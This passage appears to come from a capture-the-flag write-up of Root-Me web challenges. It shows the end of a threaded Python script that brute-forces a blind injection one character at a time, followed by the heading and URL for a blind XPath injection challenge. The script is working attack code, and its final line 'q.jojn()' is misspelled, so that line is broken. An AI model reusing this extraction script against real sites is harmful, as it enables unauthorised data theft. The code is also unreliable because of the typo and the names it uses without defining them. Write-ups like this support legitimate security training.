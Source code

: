```
        except:
            print("Connection refused by the server..")
            print("Let me sleep for 5 seconds")
            print("ZZzzzz...")
            time.sleep(5)
            print("Was a nice sleep, now let me continue...")
            continue
    
    if 'Welcome' in page.text:
        payload+=i
        print(payload)
        next=True
q=queue.Queue(5)
for i in range(5):
        thread=myThread(work,q)
        thread.start()
        #threads.append(thread)
'''for j in range(1,100):
    if next==True:
        next=False
    for i in string.printable[:-5]:
        if next==False:
            q.put([i,j])
            #print("{} is put".format(j))
        else:
            next=False
            break
q.join()'''
for k in range(1,5):
    for j in range(1,100):
        if next==True:
            next=False
        for i in string.printable[:-5]:
            if next==False:
                q.put([i,j,k])
                #print("{} is put".format(j))
            else:
                next=False
                break
    q.jojn()
```

## 54.XPath injection - blind
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch24/](http://challenge01.root-me.org/web-serveur/ch24/ "http://challenge01.root-me.org/web-serveur/ch24/")


